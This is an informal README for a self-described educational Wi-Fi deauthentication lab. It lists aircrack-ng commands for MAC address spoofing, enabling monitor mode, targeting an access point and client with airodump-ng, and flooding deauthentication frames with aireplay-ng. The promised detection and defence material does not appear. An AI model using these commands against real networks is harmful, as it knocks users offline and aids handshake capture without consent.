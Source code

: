 # Wi-Fi Deauthentication Lab (Educational Only)  

⚠️ **Disclaimer**  
This script is for **educational and research purposes only**.  
- Use it **only in your own lab environment** or with **explicit written permission**.  
- The author is **not responsible** for misuse or illegal activity.  
- Unauthorized use against third-party networks is **illegal** and may result in severe penalties.  

---

##  Purpose  
This script demonstrates how **legacy Wi-Fi protocols (WEP/WPA/WPA2)** are vulnerable to **deauthentication frame injection**, which can force clients off a network.  

The goal is **not to attack real networks**, but to:  
- Understand the **weakness** of older Wi-Fi security,  
- Learn how to **set up a lab** to safely replicate the attack,  
- Explore how to **detect** such events using Wireshark/tshark,  
- Study **defensive measures** (WPA3, 802.11w PMF).  

---

##  Requirements  
- Linux (Debian/Ubuntu/Kali recommended)  
- Root privileges  
- Wireless adapter supporting **monitor mode + packet injection**  
  (e.g., Alfa AWUS adapters)  
- Tools:  
  - `airmon-ng` / `aireplay-ng` (part of aircrack-ng suite)  
  - `tshark` / `wireshark` for detection  

---

##  Lab Workflow  
1. Set up a **test Wi-Fi network** with WPA2 (router/AP you own).  
2. Place your adapter in **monitor mode**:  
   ```bash
   sudo airmon-ng start wlan0

To test the tools on **own environment** with airmon-ng this is an ethical tool i use the command for this wifi scripting 
1. open vmware edit USB setting to allow USB 3.1
2. power on Kali linux environment on vmware
3. plug in your awus wifi adapter mine is AWUS036ACH
   4.change Mac address
ifconfig [it will show mac address mac address have 6 segment btw in format of ether : mac address]
ifconfig (your wifi adapter name mine is wlan0) down [shutdonw first]
ifconfig wlan0 hw ether (change to mac address u want eg 00:11:22:33:44:55)
ifconfig wlan0 up

 5.open monitor mode
 iwconfig [chek isit in monitor mode/managed mode]
 ifconfig wlan0 down 
 airmon-ng check kill [kill internet operation that may disrupt]
 iwconfig wlan0 mode monitor mode / is this does not work usee airmon-ng start wlan0
 ifconfig wlan0 up
 iwconfig

6.analyse the wifi
airodump-ng wlan0mon / airodump-ng --band a [for 5g] if abg[for 4g and 5g but slower ] wlan0mon
airodump-ng --bssid (target network mac address) --channel (ch) --write (file) wlan0mon
ls 

7.deauth own wifi
aireplay-ng --deauth 1000 -a (target mac ap) -c  (station mac address of client )  wlan0mon
airodump-ng --bssid (mac address) --channel (channelnom) -w capture wlan0mon
 

